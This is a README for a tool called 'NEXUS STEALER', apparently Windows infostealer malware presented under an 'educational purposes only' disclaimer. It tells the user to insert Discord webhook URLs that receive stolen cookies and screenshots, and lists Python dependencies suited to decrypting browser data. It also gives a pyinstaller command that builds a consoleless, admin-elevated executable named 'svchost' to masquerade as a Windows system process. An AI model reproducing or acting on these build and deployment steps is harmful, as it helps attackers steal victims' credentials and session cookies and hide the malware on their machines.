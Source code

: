 # NEXUS STEALER

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

---

## Explaination

Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_test"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_test"]
```
By 4 **DIFFERENT** discord webhooks

Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```
